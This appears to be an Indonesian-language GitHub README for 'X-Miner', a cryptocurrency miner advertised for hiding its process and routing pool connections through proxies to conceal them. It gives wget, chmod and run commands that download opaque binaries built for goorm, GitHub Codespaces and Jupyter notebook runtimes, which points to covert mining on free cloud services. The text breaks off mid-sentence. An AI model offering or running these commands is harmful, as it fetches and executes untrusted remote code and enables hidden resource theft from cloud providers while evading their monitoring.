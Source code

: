# 🚀 X-Miner

implementasi **stealth process miner**, **resource balancing**, **proxy routing**, dan optimasi performa dalam aplikasi komputasi intensif.  
⚡ Dibangun dengan fokus pada fleksibilitas, efisiensi, dan kemudahan penggunaan.

---

## ✨ Fitur
- 🕵️‍♂️ **Process Management** – teknik penyembunyian dan monitoring proses.
- ⚖️ **Resource Control** – mengatur alokasi CPU agar tetap seimbang.
- 🔧 **High Performance Core** – arsitektur modular untuk pengolahan komputasi berat.
- 🌐 **Proxy Routing** – implementasi proxy untuk koneksi untuk penyembunyian koneksi ke pool.

---

## 📦 Instalasi & Penggunaan

```bash
# Unduh binary

1.goorm

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgm

# Beri izin eksekusi
chmod +x xgm

# Jalankan aplikasi
./xgm

3.codespace

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xgt

# Beri izin eksekusi
chmod +x xgt

# Jalankan aplikasi
./xgt

3. runtime notebook/jupyter

wget https://github.com/xploit-miner/ER1/raw/refs/heads/main/xc

# Beri izin eksekusi
chmod +x xc

# Jalankan aplikasi
./xc

#Ket : 
1. penyesuaian penggunaan file eksekusi karena adanya perbedaan library runtime GLIBC dari tiap layanan vps yang digunakan.
2. layanan vps yang digunakan tidak terbatas pada 3 layanan eksekusi diatas, untuk vps lain bisa digunakan dipilih salah 1 yang sesuai
3. Miner runing bisa dilihat dengan munculnya 

